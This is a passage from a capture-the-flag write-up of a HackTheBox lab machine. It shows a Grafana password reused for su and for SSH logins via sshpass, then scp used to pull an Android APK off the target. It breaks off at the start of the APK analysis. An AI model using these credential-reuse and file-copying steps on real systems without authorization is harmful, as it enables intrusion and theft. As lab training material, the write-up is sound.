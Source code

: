 developers password in Grafana is bigbang.

#### su / SSH

The Grafana password is reused on the system:

```

shawking@bigbang:/opt/data$ su - developer
Password: 
developer@bigbang:~$

```

It works for SSH as well:

```

oxdf@hacky$ sshpass -p 'bigbang' ssh developer@bigbang.htb
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-130-generic x86_64)
...[snip]...
developer@bigbang:~$ 

```
*Disclaimer - I like to use `sshpass` to pass passwords via the command line for CTF blog posts because it makes it very clear what I’m doing. Never enter real credentials into the command line like this.*

## Shell as root

### Enumeration

In developer’s home directory, there’s an `android` application:

```

developer@bigbang:~/android$ ls
satellite-app.apk

```

I’ll exfil a copy of it to my host with `scp`:

```

oxdf@hacky$ sshpass -p bigbang scp developer@bigbang.htb:~/android/*.apk .

```
*Disclaimer - I like to use `sshpass` to pass passwords via the command line for CTF blog posts because it makes it very clear what I’m doing. Never enter real credentials into the command line like this.*

### APK Analysis

#### Run It
